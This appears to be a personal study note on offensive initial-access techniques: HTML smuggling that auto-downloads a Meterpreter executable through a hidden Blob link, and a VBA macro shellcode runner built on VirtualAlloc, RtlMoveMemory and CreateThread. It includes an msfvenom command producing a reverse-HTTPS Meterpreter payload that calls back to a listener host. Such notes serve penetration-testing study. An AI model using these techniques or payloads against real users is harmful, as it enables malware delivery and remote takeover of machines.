 # HTML Smuggling

Usual technique for download file is to add **download** attribute tag act as a hyperlink to automatically download file when user click

```hmtl
<html>
   <body>
   <a href="/msfstaged.exe" download="msfstaged.exe">DownloadMe</a>
   </body>
</html>
```

Step for without user interactive.

1) Create Base64 Meterpreter Executable and store as Blob
2) Use Blob to create URL file object that simulates a file on the web server
3) Create an insivible anchor tag trigger download action once load pages

For google chrome we can use window.URL.createObjectURL, however for microsoft edge it does not support URL.createObjectURL() to download.
IE and Edge have their own APIs for creating and downloading files, which are called `msSaveBlob` or `msSaveOrOpenBlob`

# VBA Shellcode Runner

Piece of code execute in memory.

Require appraoch three win32 APIs from kernel32.dll: *virtualAlloc*, *RtMoveMemory* and *CreateThread*

Use *virtualAlloc* to allocate unmanaged memory that is writable, readable and executable.  
use *RtMoveMemory* to copy the shellcode into the newly allocated memory  
use *CreateThread* to create a new execution thread in the process to execute the shellcode.  

```
LPVOID VirtualAlloc(
LPVOID lpAddress,
SIZE_T dwSize,
DWORD flAllocationType,
DWORD flProtect
);
```
### Paramter explaination

*lpAddress* is the memory location address, if leave it set to "0", the API will choose the location.  
*dwSize* indicate the size of the location  
*flAllocationType and flProtect* indicate the allocation type and the memory protections.

### Data type in VBA
*LPVOID* can be represent as *LongPtr* in VBA.  
*DWORD* and *SIZE_T* are integers can be represent as *Long* in VBA.  

### Declare statement
```
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
```
*PtrSafe is a keyword to asserts that a Declare Statement is safe to run in x64 environment*

### Creating payload

First use msfvenom to create payload, even though the target machine is 64-bit, but the microsoft office installed in 32-bit application, so generate 32-bit shellcode

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.81 LPORT=443 ExitFunc=thread -f vbapplication
```

Add array to the VBA code.

### Setting argument for VirtualAlloc

lpaddress - Set the value "0" which will leave the memory allocation to the API.  

  
DwSize - Can be hard coded the length of the payload, however need to change again, if another payload is used. To set it dynamically, use the *Ubound* to get the size of the array containing the shellcode.  

  
fkAllocationType - Set as *0x3000* which equates to the allocation type enums of **MEM_COMMIT** and **MEM_RESERVE**. This will make the OS allocate the desired memory for us and make it available. In VBA, this will be represented as &H3000.  

  
flProtect - set to &H40(0x40) indicating the memory is able to read write execute.  

### RtlMoveMemory

Destination - Points to the newly allocated buffer.

Source - address of an element from the shellcode array

Length - the length of the source.

### CreateThread.

Most the argument in CreateThread are not needed and can set them to O.

The third argument LPstartAddress is the start address for the code execution and must be the address of our shellcode buffer. 

